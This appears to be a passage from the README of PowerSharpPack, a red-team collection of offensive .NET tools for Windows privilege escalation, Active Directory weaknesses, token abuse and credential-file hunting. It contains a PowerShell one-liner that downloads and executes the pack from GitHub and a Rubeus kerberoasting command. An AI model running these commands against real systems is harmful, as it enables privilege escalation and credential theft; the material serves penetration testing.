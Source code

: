  **Watson**

 Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities
 
 @Credit to: https://github.com/rasta-mouse/Watson

 **Grouper2**

 Find vulnerabilities in AD Group Policy
 
 @Credit to: https://github.com/l0ss/Grouper2

 **Tokenvator**

 A tool to elevate privilege with Windows Tokens
 
 @Credit to: https://github.com/0xbadjuju/Tokenvator

 **SauronEye**

 Search tool to find specific files containing specific words, i.e. files containing passwords.
 
 @Credit to: https://github.com/vivami/SauronEye

Just load the main script with

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')`


and choose the tool as switch parameter for example:

`PowerSharpPack -seatbelt -Command "AMSIProviders"`

![alt text](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/raw/master/images/Example.JPG)

If you want to pass multiple parameters to the binary you can just use quotation marks like:

`PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`

If you dont want to load all binaries for reasons you can use the per binary Powershell scripts located in the PowerSharpBinaries folder.

Projects which are also available as standalone powershell script:

 **SharpCloud**

 Simple C# for checking for the existence of credential files related to AWS, Microsoft Azure, and Google Compute.
 
 @Credit to: https://github.com/chrismaddalena/SharpCloud

 **SharpSSDP**

 SSDP Service Discovery
 
 @Credit to: https://github.com/rvrsh3ll/SharpSSDP

 **DAFT**

 DAFT: Database Audit Framework & Toolkit
 
 @Credit to: https://github.com/NetSPI/DAFT
